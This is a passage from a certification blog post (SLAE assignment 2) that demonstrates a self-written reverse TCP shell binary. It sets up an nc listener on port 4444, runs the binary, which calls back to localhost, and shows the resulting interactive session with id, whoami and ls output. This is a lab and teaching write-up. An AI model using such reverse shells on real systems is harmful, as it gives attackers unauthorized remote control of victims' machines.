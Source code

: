 ```sh
-rwxrwxr-x  1 anubis anubis  620 Feb 24 21:45 reverse_tcp
-rw-rw-r--  1 anubis anubis 1476 Feb 23 23:37 reverse_tcp.nasm
-rw-rw-r--  1 anubis anubis  528 Feb 24 21:45 reverse_tcp.o
-rwxrwxr-x  1 anubis anubis 7396 Feb 24 21:30 test
-rw-rw-r--  1 anubis anubis  242 Feb 24 21:29 test.c
anubis@ubuntu:~/SLAE/Assignment_2$
```
Now we set up a listener in separate terminal, since this program will call back to `127.1.1.1` (localhost) on port `4444`.

```sh
anubis@ubuntu:~/SLAE/Assignment_2$ nc -nvlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
```

Then we execute our reverse shell binary created from the `compile.sh` script.

```sh
anubis@ubuntu:~/SLAE/Assignment_2$ ./reverse_tcp
```

This won't have any output right away from the victim host, since it's effectively established a remote session. On our listener, we see that we have a connection coming from localhost.

```sh
anubis@ubuntu:~/SLAE/Assignment_2$ nc -nvlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 57480)
```

And from our listener terminal, when we execute commands, they provide output on our target machine (again, which is localhost in this case).

```sh
anubis@ubuntu:~/SLAE/Assignment_2$ nc -nvlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 57480)

id
uid=1000(anubis) gid=1000(anubis) groups=1000(anubis),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
whoami
anubis
ls
compile.sh
reverse.c
reverse_tcp
reverse_tcp.nasm
reverse_tcp.o
test
test.c
```

Great! This is now a prefectly interactive reverse shell on our victim. This wraps this blog post on assignment 2 for the SLAE certification! Up next will be creating an Egg Hunter! Look forward to that next up.


<hr />

This blog post was created as per the requirements of the Security Tube Linux Assembly Expert certification.

Student ID: SLAE-1406

Please see [https://github.com/AnubisSec/SLAE](https://github.com/AnubisSec/SLAE) for all the source files mentioned on this site.
